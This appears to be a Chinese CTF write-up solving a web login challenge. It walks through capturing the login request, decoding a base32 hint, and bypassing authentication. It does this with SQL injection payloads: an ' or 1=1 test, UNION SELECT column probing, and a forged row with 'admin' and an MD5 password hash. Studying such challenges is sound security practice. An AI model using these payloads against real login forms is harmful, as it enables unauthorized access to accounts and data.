 ![[Pasted image 20221106111400.png]]

![[Pasted image 20221106111412.png]]

抓包发现通过`POST`方法传递用户名和密码

![[Pasted image 20221106111504.png]]

响应包中有一串`base32`码

![[Pasted image 20221106111611.png]]

![[Pasted image 20221106111649.png]]

套娃.jpg

![[Pasted image 20221106111726.png]]

看来是对用户名进行注入
```sql
name=1' or 1=1 or '1&pw=password
```
![[Pasted image 20221106112051.png]]

尝试[[判断注入点]]
```sql
name=1' union select 1,2,3#&pw=password
```
![[Pasted image 20221106113404.png]]
```sql
name=1' union select 'admin',2,3#&pw=password
```
```sql
name=1' union select 1,'admin',3#&pw=password
```
```sql
name=1' union select 1,2,'admin'#&pw=password
```
发现注入点为第二列

猜测`password`为第三列
```sql
name=1' union select 1,'admin','1'#&pw=1
```
![[Pasted image 20221106114926.png]]

搜索后才知道用的`md5`编码，属实没想到QAQ
```sql
name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```
![[Pasted image 20221106115057.png]]

#Web #SQL注入 #查询结果伪造